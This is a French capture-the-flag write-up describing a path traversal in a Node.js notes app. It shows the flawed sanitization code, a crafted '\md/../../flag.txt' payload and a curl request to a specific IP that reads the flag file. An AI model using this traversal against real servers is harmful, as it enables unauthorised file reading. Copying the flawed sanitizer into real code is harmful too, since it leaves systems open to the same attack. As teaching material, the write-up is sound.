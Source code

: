 ## Sanitization

On relève une fonction qui sanitize le chemin d'accès au fichier est sanitizé par la fonction `path.resolve`.

```js
// 📂 Récupère le chemin sécurisé avec le bon format de fichier
const getFullPath = (dirPath, fileName = "", fileType = "md") => {

  const sanitizedFileName = sanitizeFileExtension(fileName, fileType) ;
  // Résout le chemin complet pour éviter toute attaque path traversal
  const basePath = path.resolve(STORAGE_DIR, dirPath);
  const fullPath = fileName ? basePath+sanitizedFileName : basePath;
  // Vérifie que basePath est bien dans STORAGE_DIR
  if (!basePath.startsWith(STORAGE_DIR)) {
    throw new Error("Chemin non autorisé !");
  }

  return fullPath;
};
```

En renvanche si il y a un backslash, tout ce qu'il y a après est interprété sans sanitization.

```js
const sanitizeFileName = (fileName) => {
  lastSlash = fileName.lastIndexOf('\\');
  if (lastSlash !== -1){
    fileName = fileName.slice(lastSlash + 1);
  } else
  {
    lastSlash = fileName.lastIndexOf('/');
    if (lastSlash !== -1){
      fileName = fileName.slice(lastSlash + 1);
    }
  }
  return fileName;
};
```

Pour l'accès au fichier on garde le .md à la fin de la payload

```js
const sanitizeFileExtension = (fileName, fileType) => {
  fileName = sanitizeFileName(fileName);
  if (fileName.includes('html')){
    return fileName;
  };
  if (fileName.includes('md')){
    return fileName;
  }
  extension = 'error';
  if (fileType === "html") {
    extension = "html";
  }
  if (fileType === "md") {
    extension = "md";
  }
  return `${fileName}.${extension}`;
};
```

## Crafting payload

On choisit un dossier existant `MyVeryFirstNote -> basePath = /app/src/storage/MyVeryFirstNote`
On forge le paramètre file :

```
\md/../../../../../../../../../../flag.txt
```

Le premier caractère est le backslash `\` (encodé `%5c` en URL).
Après nettoyage il ne reste que `md/../../../…/flag.txt` (conserve « md »).

La concaténation produit quelque chose comme :

```
/app/src/storage/a  +  md/../../../../../../../../../../flag.txt
-> /app/src/storage/amd/../../../../../../../../../../flag.txt
```

on sort donc complètement de `storage/` pour finir sur /flag.txt.

## Getting the flag

```bash
curl -s "http://23.251.131.67:32881/api/file?path=MyVeryFirstNote&file=%5c/md/../../../../../../../../../../flag.txt"
```

- `path=MyVeryFirstNote` : dossier légitime.
- `file=%5c/md/../../../../../../../../../../flag.txt`
- `%5c` = `\` URL-encodé
- `md/../../` effectue le path-traversal.

# Flag 

```
{"content":"HNx04{4ff80656112e8beaf4a74710085f25ed}\n"}
```
